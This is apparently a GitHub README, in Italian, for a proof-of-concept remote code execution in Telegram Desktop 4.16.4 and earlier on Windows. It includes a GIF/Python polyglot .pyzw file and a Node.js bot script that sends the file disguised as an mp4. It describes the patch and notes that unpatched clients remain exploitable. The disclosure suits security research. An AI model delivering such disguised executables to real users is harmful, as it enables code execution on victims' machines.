 # TELEGRAM DESKTOP RCE
## Setup della vittima
- **Telegram Desktop Version <= 4.16.4**
- **Python installato**
- **OS = Windows**

### WARNING: Questi PoC funzionano solo su Windows, altri sistemi operativi non sono stati testati.
La vulnerabilità si basa sul "typo" nello scrivere il nome dell'estensione "pyzw" nell'elenco delle estensioni pericolose.

![photo1713802375(1)](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/1908a7dc-816b-47a9-9389-9915de4e2ea1)

## PoC 1 ==> file polyglot (image/gif)

File con del codice python ma che ha MIME “image/gif”
**exploit1.pyzw**
```
GIF89A = “test”
import os
os.system(“calc”)
```
Infatti **inserendo nell’header del file il magic number 47 49 46 38 37 61 (GIF89A)
è possibile creare un file che sembra una GIF ma che in realtà nasconde al suo interno un codice malevolo**.

![photo1713493979](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/a8e72a18-55bb-401c-bfb9-a2c17799c98d)

L'hexdump:

![image_2024-04-19_04-04-03](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/05e65e01-c8a7-43c7-a50d-d362773e44be)

Durante il caricamento il file viene considerato come una GIF da telegram desktop
tuttavia, nel momento di visualizzazione appare come una GIF non funzionante e viene visualizzato come un rettangolo nero.

Essendo considerata come una GIF da telegram desktop, quando il client prova ad aprirla, viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul MIME) la apre con python, permettendo di fatto RCE.

## PoC 2 ==> Telegram BOT API (video/mp4)
Codice che si vuole far eseguire alla vittima
**exploit2.pyzw**
```
__import__("subprocess").call(["calc.exe"])
```

Questa vulnerabilità sfrutta un altro concetto, le API di telegram hanno una funzione **SendVideo** che permette di inviare dei video tramite multipart/form-data e si è scoperto che **non ci sono controlli per verificare se viene effettivamente caricato un file di tipo video, dunque è possibile caricare dei file di qualunque estensione e di qualsiasi MIME come fossero dei video**.

![immagine](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/1e02b04d-64c7-4f65-8d56-80026b492286)

Dato che il client si fida(va) ciecamente del server, il file verrà visualizzato come un video.

**SendVideoCall.js**
```
const fs = require("fs");
const TelegramBot = require("node-telegram-bot-api");

const token = "<BOT_TOKEN>";

const bot = new TelegramBot(token, { polling: true });

bot.onText(/\/video/, (msg) => {
  const chatId = msg.chat.id;

  bot.sendVideo(
    chatId,
    fs.readFileSync("exploit2.pyzw"),
    {
      width: 300,
      height: 300,
      duration: 30,
      // thumbnail: "https://duckduckgo.com/favicon.ico",
    }, {
      filename: "fakeVideo.pyzw",
      contentType: "video/mp4"
    }
  );
});
```

Tuttavia, nel momento di visualizzazione, appare come un video non funzionante e viene visualizzato come un rettangolo nero con il simbolo "play" al centro e la durata fake (specificata dall'attaccante nella sua API call nell parametro "duration").



Essendo considerato come un video da telegram desktop, quando il client prova ad aprirlo, viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul Content-Type) lo apre con python, permettendo di fatto RCE.

## WARNING: la vulnerabilità è stata patchata!
- **lato server**: aggiungendo l'estensione .untrusted ai file .pyzw (*.pyzw.untrusted)
- **lato client** (> 4.16.4) :
	* aggiungendo "pyzw" all'elenco delle estensioni pericolose
	* facendo in modo che non venga mostrata l'ateprima delle GIF e dei video non funzionanti 
	* aggiungendo un controllo per verificare che il MIME corrisponde al tipo di estensione inviata; se non corrisponde, il client aggiungerà l'estensione corrispondente al MIME/Content type, ad esempio:
		*  se viene inviato un file con MIME GIF verrà scaricato dal client con estensione corrispondente \*.pyzw.gif, 
		*  invece, se il file viene inviato dal BOT con ContentType "video/mp4" allora il file verrà scaricato sul client come \*.pyzw.mp4.
 	
<br>

![photo1713802375](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/2ae70b62-e69b-424b-9649-ad347670e30d)


**È ancora possibile sfruttare la vulnerabilità** rielaborando uno degli exploit se: 
- il target ha ancora il client telegram desktop vecchio installato (<= 4.16.4);
- si conosce un programma installato nel computer della vittima in grado di eseguire delle azioni a seguito dell'apertura di un file.
